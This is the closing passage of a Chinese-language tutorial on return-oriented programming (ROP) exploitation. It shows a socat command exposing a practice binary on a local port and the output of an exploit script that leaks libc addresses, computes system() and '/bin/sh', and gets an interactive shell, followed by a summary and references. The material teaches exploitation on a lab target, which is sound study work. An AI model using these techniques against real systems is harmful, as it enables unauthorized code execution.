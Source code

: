 接着我们使用socat把level2绑定到10003端口:

```
socat TCP4-LISTEN:10003,fork EXEC:./level2

```

最后执行我们的exp：

```
$python exp3.py 
[+] Opening connection to 127.0.0.1 on port 10003: Done
plt_write= 0x8048340
got_write= 0x804a00c
vulfun= 0x8048404

###sending payload1 ...###

###receving write() addr...###
write_addr=0xb76f64c0

###calculating system() addr and "/bin/sh" addr...###
system_addr= 0xb7656460
binsh_addr= 0xb7778ff8

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
mzheng

```

0x04 小结
=======

* * *

本章简单介绍了ROP攻击的基本原理，由于篇幅原因，我们会在随后的文章中会介绍更多的攻击技巧：如何利用工具寻找gadgets，如何在不知道对方libc.so版本的情况下计算offset；如何绕过`Stack Protector`等。欢迎大家到时继续学习。另外本文提到的所有源代码和工具都可以从我的github下载：https://github.com/zhengmin1989/ROP_STEP_BY_STEP

0x05 参考文献
=========

* * *

1.  The geometry of innocent flesh on the bone: return-into-libc without function calls (on the x86)
2.  picoCTF 2013: https://github.com/picoCTF/2013-Problems
3.  Smashing The Stack For Fun And Profit: http://phrack.org/issues/49/14.html
4.  程序员的自我修养
5.  ROP轻松谈